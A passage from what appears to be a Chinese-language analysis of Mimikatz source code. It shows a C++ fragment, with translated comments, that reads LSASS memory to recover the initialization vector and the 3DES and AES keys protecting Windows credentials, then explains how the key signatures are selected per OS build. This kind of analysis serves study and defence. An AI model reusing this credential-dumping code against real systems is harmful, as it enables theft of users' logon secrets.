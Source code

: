 ```c++
            aLsassMemory.address = (PBYTE) sMemory.result + currentReference-&gt;Offsets.off0;
            #if defined(_M_ARM64)
            // ......
            #elif defined(_M_X64)
            aLocalMemory.address = &amp;offset64;
            // 获取包含 InitializationVector 偏移量的那四个字节的内容，并把加到特征码的地址上，最终得到了 InitializationVector 的绝对地址
            if(kull_m_memory_copy(&amp;aLocalMemory, &amp;aLsassMemory, sizeof(LONG)))
            {
                aLsassMemory.address = (PBYTE) aLsassMemory.address + sizeof(LONG) + offset64;
            #elif defined(_M_IX86)
            // ......
            #endif
                 // 全局变量 InitializationVector 中将存储初始化向量
                aLocalMemory.address = InitializationVector;   
                if(kull_m_memory_copy(&amp;aLocalMemory, &amp;aLsassMemory, sizeof(InitializationVector)))
                {
                    // 特征码的基地址加上偏移量 off1 到达保存 h3DesKey 偏移量的那四个字节的地址
                    aLsassMemory.address = (PBYTE) sMemory.result + currentReference-&gt;Offsets.off1;
                    if(kuhl_m_sekurlsa_nt6_acquireKey(&amp;aLsassMemory, &amp;cLsass-&gt;osContext, &amp;k3Des, 
                        #if defined(_M_ARM64)
                        currentReference-&gt;Offsets.armOff1
                        #else
                        0
                        #endif
                        ))
                    {
                        aLsassMemory.address = (PBYTE) sMemory.result + currentReference-&gt;Offsets.off2;
                        if(kuhl_m_sekurlsa_nt6_acquireKey(&amp;aLsassMemory, &amp;cLsass-&gt;osContext, &amp;kAes,
                            #if defined(_M_ARM64)
                            currentReference-&gt;Offsets.armOff2
                            #else
                            0
                            #endif
                            ))
                            status = STATUS_SUCCESS;
                    }
                }
            }
        }
    }
    return status;
}
```

首先，同样是通过 `kull_m_patch_getGenericFromBuild()` 函数选出适用于当前系统版本的 `PTRN_WIN8_LsaInitializeProtectedMemory_KeyRef` 中的特征码条目。类似于前文中使用的 `LsaSrvReferences`，`PTRN_WIN8_LsaInitializeProtectedMemory_KeyRef` 也是一个包含了各种系统版本的特征码的数组，但主要用来定位加密用户凭据的初始化向量和密钥，数组中每个成员都是一个 `KULL_M_PATCH_GENERIC` 结构体。
